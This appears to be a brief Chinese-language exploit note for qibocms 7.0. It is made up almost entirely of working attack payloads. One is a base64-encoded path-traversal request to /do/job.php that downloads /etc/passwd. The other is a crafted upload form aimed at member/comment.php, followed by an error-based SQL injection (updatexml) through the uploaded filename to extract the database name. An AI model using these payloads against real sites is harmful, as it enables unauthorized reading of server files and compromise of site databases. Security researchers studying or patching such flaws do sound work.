


### qibocms（齐博）

```
版本信息：7.0
```

#### 任意文件下载

读取/etc/passwd，为了确保能跨越到路径读取到目标文件，可以多加几个../../../

```
/do/job.php?job=download&url=Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```

把要下载的文件进行base64编码



#### 报错注入

注册一个会员，然后构造一个上传表单

```
<form action="http://192.168.81.116:30002/member/comment.php?job=edit" method="POST" enctype="multipart/form-data">
<input type="file" name="cidDB" value="test" style="350px;"/><br/> 
<input type="submit" value="确定"/> </form>
```

随意上传一个文件然后抓包，将URL里的edit修改为del，注入点在文件名处



获取当前数据库名称

```
' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

